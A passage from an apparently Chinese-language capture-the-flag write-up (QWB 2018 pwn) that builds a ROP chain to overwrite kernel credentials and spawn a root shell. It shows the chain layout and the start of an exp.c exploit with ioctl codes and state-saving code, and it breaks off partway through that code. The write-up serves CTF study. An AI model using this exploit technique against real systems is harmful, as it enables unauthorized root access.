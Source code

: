 构造rop修改cred结构root提权
```
0x9090909090909090,
0x9090909090909090,
0x9090909090909090,
0x9090909090909090,
0x9090909090909090,
0x9090909090909090,
0x9090909090909090,
0x9090909090909090,
canary,
0x9090909090909090,
&set_uid,
ret_addr-0xc5,
&s-0x100,
iret_addr,
&get_shell,
user_cs,
user_rflags,
&s-0x100,
user_ss
```

write函数，将rop_chain拷贝到bss段，再调用copy_func拷贝到内核栈上
![](/assets/img/writeup/2018-04-01-qwb-2018-pwn-writeup/0x003-010.png)

exp.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>

#define COMMAND_READ 0x6677889B
#define COMMAND_PRINT 0x6677889C
#define COMMAND_COPY 0x6677889A

#define u64 unsigned long long

unsigned long user_cs, user_ss, user_rflags;

u64 commit_creds_addr = 0;
u64 prepare_kernel_cred_addr = 0;

static void save_state(){
	asm(
	"movq %%cs, %0\n"
	"movq %%ss, %1\n"
```